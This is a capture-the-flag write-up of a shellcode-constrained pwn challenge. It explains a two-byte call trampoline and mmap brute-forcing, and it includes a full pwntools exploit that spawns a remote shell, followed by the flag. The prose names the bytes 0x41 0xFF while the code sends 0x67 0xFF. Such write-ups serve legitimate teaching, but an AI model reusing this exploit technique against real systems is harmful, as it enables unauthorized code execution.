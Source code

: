 Solved & written up by monocleus

## Challenge description

The challenge's binary is very similar to no-eeeeeeeeeemoji from Dragon Sector
CTF 2020 ( https://ctftime.org/task/14011 ).

For those who didn't play that CTF, the binary presents with a menu of three
choices:

(b)eer - Generates a random address, allocates a RWX page via mmap() and saves
it to a global variable  
(h)orse - Uses the allocated RWX map in the following way:

* Take 0x1000 bytes from user  
* Overwrite parts of it with character 'A', with the final layout being the following:  
   * 0x0 - 0x100: User-controlled  
   * 0x100 - 0x200: 'A' filler  
   * 0x200 - 0x202: User-controlled  
   - 0x202 - 0x23E: Program Shellcode #2 ( provided by the binary ).   
   - 0x23E - 0x300: 'A' filler  
   - 0x300 - 0x400: User controlled  
   - 0x400 - 0x413: Program Shellcode #1 ( also provided by the binary )  
   - 0x413 - 0x1000: User controlled

Then, execution gets passed to Program Shellcode #1 which overwrites 0x10000
bytes on stack and overwrites all registers other than RSP and RIP with
0xDEADBEEFDEADBEEF. Then, execution gets passed to code at 0x200 - providing
you with two-bytes worth of code execution, followed by the shellcode
consisting of mostly NOPs, followed by two syscalls:  
* write(1, buf, 0x26)  
* exit() 

## Binary patches

The binary is, however, patched at several places:

1) The VDSO cannot be leaked anymore as puts() gets nopped out  
2) The function that generates random rwx page has been simplified ( no
transformation of rand() result other than shifting it 12 bits left ) and
removing the < 0x10000 check. This effectively makes the function return mmaps
equal to rand() << 12  
3) The first syscall ( write ) out of Program Shellcode #2 gets patched out.

This makes the attack described in previous writeup impractical.

## Solution

Again, the major problem here is the very constrained environment - only two
bytes space for code execution, all registers are nuked, and stack is full of
0x4141414141414141 ( 'AAAAAAAA') entries.

Our solution here was to take advantage of the following NOP bytes, by using
0x41 0xFF.  
This in turn will concatenate with NOPs into a 0x41 0xFF 0x90 0x90 0x90 0x90
0x90 - **call qword ptr ds:[eax-0x6F6F6F70]**

Recall that RAX = 0xDEADBEEFDEADBEEF, which means eax = 0xDEADBEEF. 0xDEADBEEF
- 0x6F6F6F70 = 0x6F3E4F7F, which means that assuming we can control 0x6F3E4F7F
( which we can - 0xF7F is not an offset overwritten by the 'A' ), we can call
into an arbitrary location and gain comfortable code execution.

So, the plan was as follows:  
* Bruteforce the mmap until we gain a mmap at 0x6F3E4000  
* Write at 0x6F3E4F7F - 0x6F3E4000  
* Write our shellcode at 0x6F3E4000

Doing so will net you code execution and ability to get the flag:

```python  
from pwn import *

def choose_from_menu(choice):  
   io.sendlineafter('beer\n\n', choice)

def beer():  
   choose_from_menu('b')  
   io.recvuntil('@')  
   address = io.recvline()[:-1]  
   if address == "(nil)":  
       return_address = 0  
   else:  
       return_address = int(address,16)  
   return return_address

io = remote('116.203.18.177',65432)  
l = log.progress('brutforcing mmap: ')  
while True:  
   mmap = beer()  
   l.status(hex(mmap))  
   if mmap == 0x6F3E4000:  
       break  
l.success('success!')  
info('mmap: {}'.format(hex(mmap)))

#Shellcode  
payload = asm(shellcraft.amd64.sh(),arch='amd64')  
#Pad to 0x200  
payload += '\xaa' * (512 - len(payload))  
#call qword ptr ds:[eax-0x...]  
payload += '\x67\xFF'  
#Pad to 0xF7F  
payload += '\xaa' * (3967 - len(payload))  
#Read address for qword trampoline  
payload += '\x00\x40\x3E\x6F\x00\x00\x00\x00'  
#Pad to 0x1000  
payload += '\xaa' * (4096 - len(payload))  
l = log.progress("Sending payload..")  
choose_from_menu('h')  
io.sendlineafter('gib:\n', payload)  
l.success("Sent payload.")  
io.interactive()  
```

```  
hxp{5uch_4_ch34p_c45h_3rrr_fl4g_gr4b}  
```

Original writeup (https://rentry.co/722yq).
